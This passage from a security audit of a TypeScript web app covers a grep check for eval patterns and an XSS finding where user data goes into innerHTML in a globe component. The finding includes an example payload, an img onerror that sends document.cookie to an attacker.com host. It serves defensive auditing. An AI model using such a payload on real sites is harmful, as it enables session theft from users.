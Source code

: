 **Verification:**
```bash
# Ensure no occurrences of dangerous patterns
grep -r "new Function" src/
grep -r "eval(" src/
grep -r "Function(" src/
# Should return no results
```

---

### 2. Cross-Site Scripting (XSS) via innerHTML

**Severity:** CRITICAL
**CWE:** CWE-79 (XSS)
**CVSS Score:** 7.5 (High)

**Locations:**
1. `src/components/globe/EnhancedGlobe.tsx:1889-2051`
2. `src/components/map/PhotoMap.tsx`
3. `src/components/feed/MiniGlobe.tsx`

**Vulnerable Code:**
```typescript
// EnhancedGlobe.tsx - Lines 1889-2051
htmlElement={(d: object) => {
  const data = d as CityCluster;
  const el = document.createElement('div');

  // VULNERABLE: User data directly in innerHTML
  el.innerHTML = `
    <div class="globe-pin">
      <div class="pin-label">${data.label}</div>
      <div class="pin-stats">${data.albumCount} albums</div>
    </div>
  `;

  return el;
}}
```

**Attack Vector:**
If `data.label` contains malicious HTML/JavaScript, it will be executed.

**Exploit Example:**
```typescript
// Malicious album title in database
const maliciousAlbum = {
  title: '<img src=x onerror="fetch(\'https://attacker.com/steal?cookie=\'+document.cookie)">',
  location_name: 'Paris'
};

// When rendered on globe, cookie is stolen
```
